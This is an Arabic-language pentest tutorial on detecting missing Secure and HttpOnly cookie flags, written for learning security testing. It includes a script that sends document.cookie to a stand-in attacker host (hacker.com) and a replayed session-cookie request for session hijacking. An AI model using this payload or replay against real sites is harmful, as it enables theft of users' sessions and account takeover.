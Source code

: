 # 🛠️ المحاولة #1: فحص Secure Flag

### ⚙️ الفكرة:
الكوكيز بدون `Secure` يمكن إرساله عبر HTTP غير آمن، مما يجعله عرضة للسرقة عبر MITM.

### ✔️ كيف تكتشف:
- من خلال Burp Proxy:
```http
Set-Cookie: sessionid=abc123; Path=/; HttpOnly
```
> مافيش `Secure` = ثغرة موجودة ✅

### 💥 الاستغلال:
- استخدام BetterCAP أو Wireshark لالتقاط الكوكيز على شبكة غير آمنة.
- إعادة استخدام التوكن في طلب جديد:
```http
GET /profile HTTP/1.1
Host: target.com
Cookie: sessionid=abc123
```

### 📌 النتيجة:
- توكن جلسة يمكن اعتراضه بسهولة.

---

# 🛠️ المحاولة #2: فحص HttpOnly Flag

### ⚙️ الفكرة:
الكوكيز بدون `HttpOnly` عرضة للاختراق باستخدام XSS.

### ✔️ كيف تكتشف:
في Response Header:
```http
Set-Cookie: PHPSESSID=xyz789; Path=/; Secure
```
> مافيش `HttpOnly` = ثغرة موجودة ✅

### 💥 الاستغلال:
- كتابة XSS بسيط:
```html
<script>
  fetch('https://hacker.com/steal?c=' + document.cookie);
</script>
```
- الضحية تنقر على الرابط → تحصل على الكوكيز.

### 📌 النتيجة:
- سرقة الجلسة ودخول النظام باسم المستخدم.

---